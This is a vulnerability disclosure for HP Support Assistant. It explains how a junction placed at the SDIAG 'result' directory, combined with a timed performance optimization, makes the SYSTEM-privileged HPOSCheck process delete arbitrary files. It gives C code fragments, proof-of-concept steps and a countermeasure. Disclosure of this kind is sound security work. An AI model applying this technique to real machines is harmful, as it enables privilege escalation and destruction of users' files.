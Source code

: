 ## HPOSCheck: Arbitrary File Delete Elevation of Privilege

<div>
  <table>
    <tr>
      <th colspan="2">Vulnerability Information</th>
    </tr>
    <tr>
      <td>Platform</td>
      <td>Windows 10 20H2 (OS Build 19042.1387)</td>
    </tr>
    <tr>
      <td>Vendor</td>
      <td>HP (Hewlett-Packard)</td>
    </tr>
    <tr>
      <td>Application</td>
      <td>Support Assistant (Version 9.11.106.0)</td>
    </tr>
    <tr>
      <td>Function</td>
      <td>Operating System Check</td>
    </tr>
    <tr>
      <td>Date of Discovery</td>
      <td>2021-12-01</td>
    </tr>
  </table>
</div>

### Summary
It logs and automatically deletes diagnostic data when performing operating system scans in HP Support Assistant running with normal User privileges. At this time, if the path is manipulated through NTFS Mount Point/Directory Junction among Windows Symbolic Links, it can be abused to delete arbitrary files with `SYSTEM` privileges.

### Detail
When HP Support Assistant is launched, the HPSAAppLauncher process runs as a child process of the AppHelperCap service. The AppHelperCap service is a basic service provided in HP notebooks and operates with `SYSTEM` privileges. Also, if the functions provided by HP Support Assistant are performed, a new process is launched as a child process of the HPSAAppLauncher process.
HP Support Assistant provides a number of features. If you go to Fix and Diagnostics in Device Support, the operating system check function exists, and when you do that, a new process called HPOSCheck runs with `SYSTEM` privileges.

> **Process Hacker: Check process permissions**

![image](https://user-images.githubusercontent.com/44025989/207381187-5c959a87-4ae1-4468-978f-0c46da69b55e.png)</br>

During the operating system check by the HPOSCheck process, diagnostic data for BITS, Windows Update, Device Center, Maintenance, and Device are created in the following paths with `SYSTEM` privileges, respectively.

```powershell
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\BITS
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\WindowsUpdate
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\DeviceCenter
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Maintenance
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Device
```

The generated data is deleted immediately by automatically calling the `DeleteFileW` function, and at the same time, the diagnostic data saved for each area in the `"C:\Windows\Temp\SDIAG_Random GUID\result"` path are integrated and saved. Afterwards, when the operating system check is finished, the `"SDIAG_Random GUID"` directory created in the path is deleted calling the `DeleteFileW` function with `SYSTEM` privilege.

```C
_TCHAR tempPath[1024] = L"C:\\Windows\\Temp";

WIN32_FIND_DATA data;

HANDLE hFind = FindFirstFile(L"C:\\Windows\\Temp\\SDIAG_*", &data);
if (hFind == INVALID_HANDLE_VALUE)
{
	printf("[!] Cannot Find sdiag Directory\n");
	return 1;
}

_TCHAR* sdiagDir = L"Error";

while (FindNextFile(hFind, &data) != 0)
{
	if (wcscmp(data.cFileName, L".") == 0 || wcscmp(data.cFileName, L"..") == 0)
		continue;
	else sdiagDir = data.cFileName;
}
```

The path where the `"SDIAG_Random GUID"` directory is created has high privileges, so general users cannot access it. However, one of the HP Support Assistant features, Performance Optimization, can be used to delete files in that path.
If the `"C:\Windows\Temp"` path is empty by optimizing the performance while the operating system check is in progress, the operating system check can still have the handle. At this time, if you make a directory junction to the `"result"` directory with an arbitrary path, you can follow the link and delete the files in the target path with `SYSTEM` privilege.

```C
CreateDirectory(sdiagPath, nullptr);
CreateDirectory(fullpath, nullptr);

if (CreateDirectory(fullpath, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
{
	if (!ReparsePoint::CreateMountPoint(fullpath, argv[1], argc > 2 ? argv[2] : L""))
	{
	printf("[!] Error creating mount point - %ls\n", GetErrorMessage().c_str());
		return 1;
	}
}
else
{
	printf("[!] Error creating directory - %ls\n", GetErrorMessage().c_str());
}
```

### Proof of Concept
1. After verifying user information, start HP Support Assistant.
2. Go to Device Support, then select Fixes and Diagnostics.
3. Run an operating system check.
4. Perform PoC in the format of `HPOSCheck_PoC.exe [target dir]`.
5. When the message `"Start Optimize performance without additional options and press ENTER"` appears, run performance optimization and press ENTER.
6. When the PoC ends with the phrase `"Now Close the operating system check window!!!"`, the operating system check ends.

> **Usage PoC**

![image](https://user-images.githubusercontent.com/44025989/207381332-e1bfb343-3d91-4733-9be9-da443ac7d326.png)</br>

### Countermeasures
When performing operating system checks in HP Support Assistant running with normal user privileges, the `ReparseTag` must be checked internally when the `DeleteFileW` function is called.


### Reference
* **[symboliclink-testing-tools, Developed by James Forshaw](https://github.com/googleprojectzero/symboliclink-testing-tools.git)**
